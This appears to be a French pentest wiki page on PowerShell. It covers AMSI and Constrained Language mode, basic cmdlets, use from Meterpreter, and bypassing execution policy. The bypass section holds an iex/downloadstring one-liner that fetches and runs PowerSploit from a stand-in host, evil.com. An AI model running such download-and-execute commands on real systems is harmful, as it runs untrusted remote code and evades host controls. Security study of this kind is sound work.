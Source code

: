 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme "Not Powershell" (https://github.com/Ben0xA/nps)
- Il est possible d'activer le logging pour Powershell
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz)
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Meterpreter
-------------------

Il est possible d'utiliser powershell à partir d'un meterpreter:
```
load powershell
```

Voir [Meterpreter New Windows PowerShell Extension](http://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension)

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Commandes utiles
----------------

Les commandes suivantes sont utiles à connaître lors de l'utilisation de Powershell:

Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)
